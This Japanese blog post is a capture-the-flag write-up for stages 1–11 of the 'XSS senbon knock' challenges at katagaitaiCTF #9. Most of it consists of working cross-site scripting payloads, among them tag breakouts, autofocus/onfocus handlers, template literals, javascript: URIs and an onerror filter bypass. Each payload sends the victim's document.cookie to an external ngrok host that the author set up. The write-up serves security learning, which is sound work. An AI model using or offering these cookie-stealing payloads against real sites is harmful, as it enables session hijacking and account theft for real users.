 ```yaml
---
layout: post
date: 2017-08-28
title: katagaitaiCTF#9 xss千本ノック write up
tags: [katagaitaiCTF, katagaitaiCTF#9, xss, xss千本ノック, write up]
excerpt: 8月27日に秋葉原で開かれたkatagaitaiCTFに参加してきました。そこで行われたxss千本ノックのwrite upです。

---
```


8月27日に秋葉原で開かれたkatagaitaiCTFに参加してきました。  
そこで行われたxss千本ノックのwrite upです。

12~43問までのwrite upはhfukudaさんがアップしています。  
[katagaitai CTF勉強会 #9 writeup(Webパート)](http://0x90.hatenablog.jp/entry/2017/08/27/201021)  

[Flask](http://flask.pocoo.org/)を使って適当にサーバを建てて[ngrok](https://ngrok.com/)を使って外部に公開してクッキーを取っていきました。  


## Stage1/Sanity Check

> Welcome to Senbon XSS!  
> In this stage, just submit the flag `FLAG{waiwai_xss}` to the FLAG form.  
> If you submit a URL to the URL form, the victime browser will automatically access the URL.  
  
ということのなのコピーして貼り付けるだけ。


## Stage2/Sanity Check
+がurlデコードされるから%2bにして投げる。
```
/?q=<script>location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;</script>
```

## Stage3/Sanity Check
タグを閉じてスクリプトを埋め込む。
```
/?q="><script>location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;</script>
```

## Stage4/Sanity Check
textareaタグを閉じてスクリプトを埋め込む。
```
/?q=</textarea><script>location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;</script><textarea>
```

## Stage5/Sanity Check
value属性を閉じて、inputタグにフォーカスが当たったときにスクリプトを走らせます。  
ただ、このままでは即時実行出来ないので`autofocus`属性を使い最初からフォーカスを当てるようにします。
```
/?q="%20autofocus%20onfocus="location.href='http://b5236666.ngrok.io?c='%2bdocument.cookie;"
```

## Stage6/Sanity Check
シングルクォートしか使えないので、代わりにES6から導入されたテンプレートリテラルを使用すます。
```
/?q='%20autofocus%20onfocus='location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;'
```

## Stage7/Sanity Check
今回もテンプレートリテラルを使っていく。
```
/?q=value%20autofocus%20onfocus=location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;
```

## Stage8/Sanity Check
iframeタグのsrcに直接スクリプトを書く。
```
/?q=javascript:location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;
```

## Stage9/Sanity Check
scriptタグを埋め込みます。
```
/?q=<script>location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;</script>
```

## Stage10/Sanity Check
いろいろできるんだけど、chromeのxssフィルターに引っかかりまくった…  
hfukudaさんのwrite upをみて解けた。
```
/?q=<img%20src=x%20oscriptnerror=location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;>
```

## Stage11/Sanity Check
Stage10といっしょ。
```
/?q=<img%20src=x%20oscriptnerror=location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;>
```

